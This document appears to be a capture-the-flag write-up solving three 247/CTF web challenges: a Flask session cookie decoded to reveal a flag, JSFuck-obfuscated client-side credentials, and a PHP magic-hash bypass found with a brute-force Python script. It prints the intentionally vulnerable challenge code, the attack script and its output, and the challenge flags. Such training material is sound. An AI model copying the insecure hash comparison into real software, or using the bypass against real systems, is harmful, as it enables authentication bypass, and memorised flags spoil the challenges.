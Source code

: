 ## 247/CTF - web solutions
https://247ctf.com/

### SECURED SESSION

Source

```python
-snip-
@app.route("/flag")
def index():
    secret_key = secret_key_to_int(request.args['secret_key']) if 'secret_key' in request.args else None
    session['flag'] = flag
    if secret_key == app.config['SECRET_KEY']:
      return session['flag']
    else:
      return "Incorrect secret key!"
-snip-
```

We need to go to the `/flag` endpoint and look into the cookies.
After base64 decoding twice, we get the flag.

```
eyJmbGFnIjp7IiBiIjoiTWpRM1ExUkdlMlJoT0RBM09UVm1PR0UxWTJGaU1tVXdNemRrTnpNNE5UZ3dOMkk1WVRreGZRPT0ifX0
{"flag":{" b":"MjQ3Q1RGe2RhODA3OTVmOGE1Y2FiMmUwMzdkNzM4NTgwN2I5YTkxfQ=="}}
247CTF{da80795f8a5cab2e037d7385807b9a91}
```

### TRUSTED CLIENT

Looking into the source we find some jsfuck code which we can decode to standard javascript using any given online tool.

```
if (this.username.value == 'the_flag_is' && this.password.value == '247CTF{6c91b7f7f12c852f892293d16dba0148}'){ alert('Valid username and password!'); } else { alert('Invalid username and password!'); }
```

### COMPARE THE PAIR

Source

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

This code contains a typical PHP magic hash vulnerability. Using the
script below, I compute a number that when appended to the salt, passes
the flag condition.

```python
import itertools
from hashlib import md5
import string

salt = 'f789bbc328a3d1a3'

flag = False

for i in itertools.count():
    to_hash = salt + str(i)
    then_hash = md5(to_hash.encode()).hexdigest()
    print(f'{to_hash} -> {then_hash}')
    if then_hash[:2] == '0e' and then_hash[2:].isnumeric():
        input()
```

After running the script for a while, we finally get the hash.

```
# ...
# f789bbc328a3d1a3237701816 -> eac5caf7ed7c39299c49840754f882d4
# f789bbc328a3d1a3237701817 -> 4f743cac51ce63a5d51aab8cedf9a7ba
# f789bbc328a3d1a3237701818 -> 0e668271403484922599527929534016
```

Putting the number as the get parameter "password":
`247ctf.com/?password=237701818`

Flag: `247CTF{76fbce3909b3129536bb396fea3a9879}`
